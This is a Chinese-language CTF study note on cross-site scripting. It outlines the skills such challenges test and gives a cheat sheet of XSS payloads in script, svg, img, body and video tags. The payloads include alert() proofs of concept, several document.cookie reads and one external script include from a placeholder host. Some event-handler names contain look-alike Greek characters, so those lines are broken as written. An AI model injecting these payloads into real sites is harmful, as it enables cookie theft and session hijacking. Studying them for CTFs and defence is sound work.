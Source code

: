 
## XSS 题目对能力的要求

- 能够找到 XSS 的点
- 能够绕过浏览器内置的保护机制以及程序本身的过滤机制插入 XSS 脚本进行利用
- 会使用 XSS 盲打平台

### 常见的 XSS 出题方式

- 替换
- [内容安全策略( CSP )](http://www.ruanyifeng.com/blog/2016/09/csp.html)

---

## XSS 的 Playload

### `<script>`标签：`<script>`标签是最直接的 XSS 有效载荷，脚本标记可以引用外部的 JavaScript 代码，也可以将代码插入脚本标记中

```html
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

### `<svg>`标签

```html
<svg onload="alert(1)"><svg onload="alert(1)"//</svg>
```

### `<img>`标签

```html
<img src=1 οnerrοr=alert("hack")>
<img src="1" οnerrοr="alert(document.cookie)" /> #弹出cookie
```

### `<body>`标签

```html
<body οnlοad="alert(1)">
  <body οnpageshοw="alert(1)"></body>
</body>
```

### `<video>`标签

```html
<video οnlοadstart="alert(1)" src="/media/hack-the-planet.mp4" />
```
